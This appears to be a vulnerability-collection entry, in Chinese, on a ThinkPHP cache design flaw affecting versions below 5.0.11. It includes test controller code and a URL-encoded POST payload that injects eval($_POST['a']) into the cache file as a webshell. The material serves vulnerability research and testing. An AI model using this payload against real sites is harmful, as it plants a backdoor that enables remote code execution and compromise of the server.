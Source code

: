 >![20170703.png](image/ThinkPHP/2017-07-03.png)

#### ThinkPHP5.0.10-3.2.3_缓存函数设计缺陷可导致Getshell 

| 标题     | ThinkPHP5.0.10-3.2.3 缓存函数设计缺陷可导致Getshell |
| -------- | --------------------------------------------------- |
| 时间     | 2017-08-09                                          |
| 版本     | < 5.0.11                                            |
| 文章链接 | <https://xz.aliyun.com/t/99>                        |

  >测试方法
  >
  >```bash
  >git checkout 094dde5
  >```
  >
  >测试代码
  >
  >```php
  >public function add()
  >{
  >    $user = input('post.');
  >    $m=db('user')->where(['id'=> 1])->insert($user);
  >}
  >
  >public function cache()
  >{
  >    $m = db('user')->select();
  >    Cache::set('name',$m,3600);
  >}
  >```
  >
  >POC
  >
  >```php
  >post data:
  >    username=%2F%2F%0D%0A%24a%3Deval(%24_POST%5B%27a%27%5D)%3B%23
  >注：%2F%2F%0D%0A = //+回车
  >```
  >
  >结果
  >